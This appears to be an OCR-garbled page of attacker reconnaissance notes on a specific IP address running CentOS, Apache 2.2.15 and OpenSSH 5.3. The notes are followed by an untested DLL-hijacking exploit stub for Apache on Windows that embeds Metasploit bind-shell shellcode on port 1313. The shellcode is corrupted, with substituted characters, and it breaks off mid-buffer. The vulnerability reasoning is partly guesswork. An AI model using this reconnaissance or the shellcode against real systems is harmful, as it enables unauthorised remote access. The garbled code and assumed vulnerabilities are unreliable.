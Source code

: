 sic info
IP: 140.211.89.15
OS:
 - CentOS
Other:

 - Apache version 2.2.15
 - OpenSSH 5.3

Vulnerabilities found:

Apache 2.2.15
 - Integer overflow in apache2-mpm-worker 2.2.19 mod-setenvif (If its in 2.2.19, it is in 2.2.15)
 - DOS (many remote denial of services)
 - DLL hijacking vulnerability (First exploit code) (Windows only.) :( 


-----------------------------------------

Exploit code:

(NOT TESTED)

File Vulnerable:
- httpd.exe
- ApacheMonitor.exe
- htpasswd.exe
- htdigest.exe
- htdbm.exe
- htcacheclean.exe
- httxt2dbm.exe
- openssl.exe
- rotatelogs.exe
- wintty.exe
*/
#include &lt;windows.h&gt;
#define DllExport __declspec (dllexport)
/*
* windows/shell_bind_tcp – 476 bytes
* http://www.metasploit.com
* Encoder: x86/shikata_ga_nai
* LPORT=1313, RHOST=, EXITFUNC=process, InitialAutoRunScript=,
* AutoRunScript=
*/
unsigned char buf[] =
&quot;x33xc9xb1×71xd9xccxd9×74x24xf4×5axb8×8bxf0×6b&quot;
&quot;x88×31x42×14x03×42x14×83xeax77×12x9ex51×4bx0a&quot;
&quot;x15×46xa7×13x2exc4×17x2dx90xfax5ex1cx44xccx17&quot;
&quot;x46×1axc1×2bx7bx6bx0bxc9xcbx79xf3×02x70xa7×1c&quot;
&quot;x1ax18×5exeax0ex4cx26×6dx61×78x82×18x2ex5cxb0&quot;
&quot;x47×78xb2xc4×13xa2×2bxfax10xe4×75x67xb5×3cx0f&quot;
&quot;xd8xbcxefxaexddxf7×7cx02×82xd9×94x69xf6×52x08&quot;
&quot;xc3xddx4dx9fx38×1fx4cx58×59x99×20xcex33×2bxe6&quot;
&quot;x9ex58×2ax15×3axe7xacx30×0fxd9×19xf0xbcx96xe1&quot;
&quot;xc5xdcxfcxe7×42x6ex35×16x4axf8×16x82×92x75xcd&quot;
&quot;x72xb0×29x9exe4xadxa0×37x18×21xf9×5ax28xcaxc7&quot;
&quot;x9exa3×1dxd5xe7xbexcexb6×58x9ax29xdcx1axbax13&quot;
&quot;x72×13x09×87x4cx1cxf4×9ax33×30x57×38x59×4fx63&quot;
&quot;x4ax8fxdfx2bxc7×3bx4ax2dx22×97x08×8dxf0×36x57&quot;
&quot;x04×14x71×65x45×49xf3×0cx20xaex9dxefxc1xecxe7&quot;
&quot;xcbx29×4fx12×65x23×10xb5xbcx8dxa0xafxc8×72x85&quot;
&quot;x6cx72×2exe8×22x8fx3bx16×40x86×68x80×7dxafxf4&quot;
&quot;xd1xcdxf6×7exd5×29x45xdbx05×92x29xc8xe2xb4×13&quot;
&quot;xfbxebx3bx9ex9cxfex62xacx9dxa1×5cx9bx40×3fx12&quot;
&quot;xc6×92xf6×5cx16xdbx64×62xcdx20×58x5fx69×71x80&quot;
&quot;x11xa4xdex36xf3×73x53×86x07xbax93×68x03×99xaf&quot;
&quot;xf7xd5×91x1fxcbxc3×0ex66×94xdcx5ax69×57xe3×76&quot;